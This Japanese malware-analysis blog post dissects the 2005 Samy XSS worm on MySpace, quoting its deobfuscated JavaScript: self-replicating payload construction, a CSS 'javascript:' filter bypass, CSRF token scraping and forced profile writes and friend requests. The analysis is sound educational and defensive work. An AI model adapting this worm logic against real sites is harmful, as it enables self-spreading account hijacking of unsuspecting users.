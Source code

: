 # XSSワーム「Samy」の動作を解析する

このエントリーはセキュリティ・キャンプWS「The Anatomy of Malware 完全版」の応募課題として提出したものである。公開にあたり一部文章の修正と図式の差し替えをおこなった。

## Samyの誕生とそれによる被害

アメリカのハッカーであるSamy Kamkar氏（[@samykamkar](https://twitter.com/samykamkar)）が2005年にリリースしたMySpaceを標的とするXSSワームが「Samy（JS.Spacehero）」である。当時のソーシャル・ネットワーキング・サービスMySpaceではプロフィールをユーザー好みのスタイルに設定できる仕様であり、一部のHTMLタグの使用が許可されていた。JavaScriptの実行につながるタグや属性などの使用は禁止されていたが、Kamkar氏はそのフィルター処理を回避できた<sup id="f1">[1](#fn1)</sup>。当時19歳だったKamkar氏はこの抜け道を利用して友達を増やすためにSamyを開発した。

2005年10月4日にKamkar氏のプロフィールで公開されたSamyは、わずか20時間で100万人以上のMySpaceユーザーに感染した。このワームは最も急速に感染を広げたマルウェアと考えられており、XSSワームの起源にして頂点と言えるだろう。感染したユーザーはKamkar氏のアカウントへのフレンド申請を強制され、プロフィールのヒーロー欄に ` but most of all, samy is my hero.` との文言とペイロード（Samy自身）を書き込まれる。情報資産の窃取や金銭の要求などの悪質な行為はおこなわれなかった。

## Samyの感染動作

今回は[Kamkar氏のサイト](https://samy.pl/popular/tech.html)に残されている[Samyのコード](https://gist.github.com/atsunoda/efe6970e522b6af9c0cdecea0fa251bf#file-samy)を整形し、[変数名を付与したコード](https://gist.github.com/atsunoda/efe6970e522b6af9c0cdecea0fa251bf#file-samy-js)を引用しながら感染動作を解析する。コードフローを図に示すと以下のようになる。

<p align="center"><img src="/assets/2018/analyzing_samy_xss_worm/samy's_activity.png" alt="samy's_activity"></p>

MySpaceのプロフィールは `profile.myspace.com` と `www.myspace.com` の両方のドメインから閲覧できた。しかし編集は後者からしかおこなえなかったため、最初にサブドメインを確認している。感染動作に利用するページとそのURLは以下である。

* プロフィールページ  
  hxxp://www[.]myspace.com/index.cfm?fuseaction=user.viewProfile
* プロフィール編集確認ページ  
  hxxp://www[.]myspace.com/index.cfm?fuseaction=profile.previewInterests
* プロフィール編集完了ページ  
  hxxp://www[.]myspace.com/index.cfm?fuseaction=profile.processInterests

コードフローと各ページのURLを把握した上で `main()` から読み解いていく。

### main()の動作

このコードが存在する（感染済みの）プロフィールページを閲覧した被害者のIDを `getClientFID()` で取得する。その後 `httpSend()` でペイロードの書き込みを、 `httpSend2()` でフレンド申請をおこなう。今回は感染動作に注目するため `httpSend()` の処理を追う。

```js
function main() {
  var AN_clientFID = getClientFID();
  var BH_uri = '/index.cfm?fuseaction=user.viewProfile&friendID=' + AN_clientFID + '&Mytoken=' + L_myToken;
  J_xmlhttp1 = getXMLObj();
  httpSend(BH_uri, getHome, 'GET');
  xmlhttp2 = getXMLObj();
  httpSend2('/index.cfm?fuseaction=invite.addfriend_verify&friendID=11851658&Mytoken=' + L_myToken, processxForm, 'GET')
}
```

### httpSend()の動作

感染動作に利用するページへの通信は全てこの関数からおこなわれる。`onreadystatechange` イベントから実行される `getHome()` でプロフィール編集確認ページとの通信を、`postHero()` でプロフィール編集完了ページとの通信をおこなう。

まず被害者のプロフィールページをGETする。通信状態（readyState）が変わるたびにイベントが発生し、通信が終了すると `getHome()` の処理に進む。

```js
function httpSend(BH_uri, BI_function, BJ_method, BK_contents) {
  if (!J_xmlhttp1) {
    return false
  }
  eval('J_xmlhttp1.onr' + 'eadystatechange=BI_function');
  J_xmlhttp1.open(BJ_method, BH_uri, true);
  if (BJ_method == 'POST') {
    J_xmlhttp1.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    J_xmlhttp1.setRequestHeader('Content-Length', BK_contents.length)
  }
  J_xmlhttp1.send(BK_contents);
  return true
}
```

### getHome()の動作

GETしたプロフィールページのレスポンスを解析し、ヒーロー欄に `samy` の文字が含まれているか確認する。含まれている場合は既に感染済みと判断し、感染動作は終了する。含まれていない場合はペイロードを搭載したリクエストを組み立て、プロフィール編集確認ページにPOSTする。その通信が終了すると `postHero()` の処理に進む。

```js
function getHome() {
  if (J_xmlhttp1.readyState != 4) {
    return
  }
  var AU_responseHTML = J_xmlhttp1.responseText;
  AG_heroes = findIn(AU_responseHTML, 'P' + 'rofileHeroes', '</td>');
  AG_heroes = AG_heroes.substring(61, AG_heroes.length);
  if (AG_heroes.indexOf('samy') == -1) {
    if (AF_payload) {
      AG_heroes += AF_payload;
      var AR_myToken = getFromURL(AU_responseHTML, 'Mytoken');
      var AS_params = new Array();
      AS_params['interestLabel'] = 'heroes';
      AS_params['submit'] = 'Preview';
      AS_params['interest'] = AG_heroes;
      J_xmlhttp1 = getXMLObj();
      httpSend('/index.cfm?fuseaction=profile.previewInterests&Mytoken=' + AR_myToken, postHero, 'POST', paramsToString(AS_params))
    }
  }
}
```

### AF_payloadの生成

ペイロードを生成する処理は以下である。このコードが存在するページのHTMLを取得し、そこからペイロードに再利用する文字列を抽出する。この処理でSamy自身を複製している。

```js
var AA_selfHTML = g_getSelfHTML();
var AB_indexHeadOfSelfPayload = AA_selfHTML.indexOf('m' + 'ycode');
var AC_string = AA_selfHTML.substring(AB_indexHeadOfSelfPayload, AB_indexHeadOfSelfPayload + 4096);  // Length of unformatted self code is 4015.
var AD_indexTailOfSelfPayload = AC_string.indexOf('D' + 'IV');
var AE_selfPayload = AC_string.substring(0, AD_indexTailOfSelfPayload);
var AF_payload;
if (AE_selfPayload) {
  AE_selfPayload = AE_selfPayload.replace('jav' + 'a', A_singleQuote + 'jav' + 'a');
  AE_selfPayload = AE_selfPayload.replace('exp' + 'r)', 'exp' + 'r)' + A_singleQuote);
  AF_payload = ' but most of all, samy is my hero. <d' + 'iv id=' + AE_selfPayload + 'D' + 'IV>'
}
var AG_heroes;
```

抽出した文字列の二箇所に `'` を追加する処理がある。IE6のDOMから `createTextRange()` や `innerHTML` によって生成されたHTMLでは、Style属性値内の引用符が削除されることから、もとの状態に戻すための処理だと考える<sup id="f2">[2](#fn2)</sup>。これによりCSS構文は以下のように修正される。

```diff
-BACKGROUND: url(java 
-script:eval(document.all.mycode.expr))
+BACKGROUND: url('java 
+script:eval(document.all.mycode.expr)')
```

### postHero()の動作

最後にペイロードを搭載したリクエストをプロフィール編集完了ページにPOSTする。リクエストには確認ページから抽出したCSRF対策トークン `hash` も含めている。

```js
function postHero() {
  if (J_xmlhttp1.readyState != 4) {
    return
  }
  var AU_responseHTML = J_xmlhttp1.responseText;
  var AR_myToken = getFromURL(AU_responseHTML, 'Mytoken');
  var AS_params = new Array();
  AS_params['interestLabel'] = 'heroes';
  AS_params['submit'] = 'Submit';
  AS_params['interest'] = AG_heroes;
  AS_params['hash'] = getHiddenParameter(AU_responseHTML, 'hash');
  httpSend('/index.cfm?fuseaction=profile.processInterests&Mytoken=' + AR_myToken, nothing, 'POST', paramsToString(AS_params))
}
```

これにより被害者のプロフィールにペイロードが書き込まれる。そのプロフィールを閲覧したユーザーのブラウザ上でJavaScriptが実行し、そのユーザーのプロフィールにもペイロードが書き込まれる。以上がSamyの感染動作である。

## 所感

Samyの終息後も[Twitter](https://www.mcafee.com/japan/security/virT.asp?v=JS/Twettir)や[Facebook](https://www.symantec.com/connect/blogs/new-xss-facebook-worm-allows-automatic-wall-posts)などでXSSワームの被害が発生している。今後は仮想通貨のマイニングを目的としたXSSワームがリリースされることも予想される。利用者の多いSNSでXSSワームがリリースされれば多数のユーザーに感染し、被害者のPCリソースは仮想通貨のマイニングに使われる。これを狙う攻撃者（個人、組織、国家）は少なくないだろう。新種のXSSワームのリリースに備えるためにも、起源であるSamyを解析して感染動作を理解したいと考えた。

当時のMySpaceのプロフィール編集やフレンド申請は単純な処理だったが、現在のSNSではこれより複雑になっている。またCSPの導入やブラウザの保護機能によりXSSの悪用も難しくなっている。これを機に現在のSNSを標的としたXSSワームの現実的な脅威を考えていきたい。XSSの脆弱性があったと仮定して、どのようにJavaScriptを実装すれば感染動作を実現できるのか、また攻撃者の利益になるのかを考えることも重要だ。

今回の解析ではコードの整形と可視化のためにVisual Studioを、JavaScriptのデバッグのためにIE6とFirefoxを、HTTP通信の取得のためにBurp Suiteを使用した。Samyのコードは圧縮処理を除いて難読化は施されていなかった。しかしXSSワームを含む現代のJavaScriptマルウェアは高度な難読化が施されているため、[JSDetox](http://relentless-coding.org/projects/jsdetox/)などを使用したJavaScriptの解析技術が求められる。難読化されたJavaScriptマルウェアの解析方法も機会があれば調査してまとめたい。

---

<sup id="fn1">[1](#f1)</sup> 当時のIEとSafariのみで解釈される特殊なCSS構文を使用することで、フィルター処理を回避してJavaScriptを実行した。この詳細は[Kamkar氏のサイト](https://samy.pl/popular/tech.html)やOWASP & WASC AppSec 2007の「[The MySpace Worm](https://www.owasp.org/images/7/79/OWASP-WASCAppSec2007SanJose_SamyWorm.ppt)」で解説されている。  
<sup id="fn2">[2](#f2)</sup> IE6では `url()` への引数を引用符で括らなくても正常に動作したことから、IE5以前への対処だと考える。[Kamkar氏へのインタビュー](http://blogoscoped.com/archive/2005-10-14-n81.html)のなかで「私のSafariでは動かなかったが、驚くことに古いバージョンを使っていた彼女は感染した」と語っているように、Kamkar氏はSafariユーザーを標的として考えていなかった。  
